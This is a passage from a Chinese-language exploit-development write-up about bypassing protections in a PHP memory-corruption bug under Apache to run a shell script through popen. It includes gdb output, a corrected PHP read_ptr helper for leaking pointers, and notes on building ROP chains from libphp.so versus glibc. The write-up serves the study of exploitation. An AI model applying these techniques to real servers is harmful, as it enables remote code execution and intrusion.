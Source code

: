 ```
EFLAGS: 0x203 (CARRY parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7fc6f52fa530 <_IO_new_proc_open+848>:  jmp    0x7fc6f52fa4da <_IO_new_proc_open+762>
   0x7fc6f52fa532:  nop    DWORD PTR [rax+0x0]
   0x7fc6f52fa536:  nop    WORD PTR cs:[rax+rax*1+0x0]
=> 0x7fc6f52fa540 <_IO_new_popen>:  push   r12
   0x7fc6f52fa542 <_IO_new_popen+2>:    push   rbp
   0x7fc6f52fa543 <_IO_new_popen+3>:    mov    rbp,rdi
   0x7fc6f52fa546 <_IO_new_popen+6>:    push   rbx
   0x7fc6f52fa547 <_IO_new_popen+7>:    mov    edi,0x100
[------------------------------------stack-------------------------------------]
0000| 0x7fc6edc6eb18 --> 0x0
0008| 0x7fc6edc6eb20 --> 0x0
0016| 0x7fc6edc6eb28 --> 0x0
0024| 0x7fc6edc6eb30 --> 0xc01a000800000001
0032| 0x7fc6edc6eb38 --> 0x1b
0040| 0x7fc6edc6eb40 --> 0x56478a526ed0 --> 0x1
0048| 0x7fc6edc6eb48 --> 0x7fc6f27ae8c0 --> 0x40 ('@')
0056| 0x7fc6edc6eb50 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Thread 2.1 "apache2" hit Breakpoint 1, _IO_new_popen (command=0x7fc6edc6ec30 "/tmp/a.sh", mode=0x7fc6edc6ec28 "r") at iopopen.c:273

```

别忘了$rsp和$rbp都需要设置好，不然popen不会执行成功的。

**最后，有两点要说明一下：**

原文poc提供的`read_ptr`有问题，读地址的时候会中间丢掉0

感谢phithon与毕月乌大牛提供正确版本的函数

```
function read_ptr(&$mystring,$index=0,$little_endian=1){
    $s = "";
    for($i = 1; $i <= 8; $i++) {
        $s .= str_pad(dechex(ord($mystring[$index+(8-$i)])), 2, '0', STR_PAD_LEFT);
    }
    return hexdec($s);
}

```

另外就是，采用popen这个函数来完成最后的shellcode动作，是因为这个函数在libphp.so的plt里面提供了地址。如果要用system的话，还要到libc里面去找，多算一个模块的地址，就多了一份麻烦和不稳定。

![p6](http://drops.javaweb.org/uploads/images/8e655e75da8a663372b36c2b2ea907324a6442c4.jpg)

尽管本文成功绕过所有保护成功执行shellcode，但是实际意义依然有限，因为phplib.so的版本太多啦，很多情况下都是自家编译出来的，不同的so文件function table的相对位置会不一样，这样计算的基质会出错，当然构造的rop也全都错了。

php版本多，glibc版本少啊，用glibc做rop啊！用glibc找system函数啊！

![p7](http://drops.javaweb.org/uploads/images/bc4fe9170e6328cade08551c3e857ac1973fbe39.jpg)

除非上面那个被改了长度的数组可以越界读到一个glibc里面的地址，否则怎样都还是需要依靠libphp.so的。

以上です。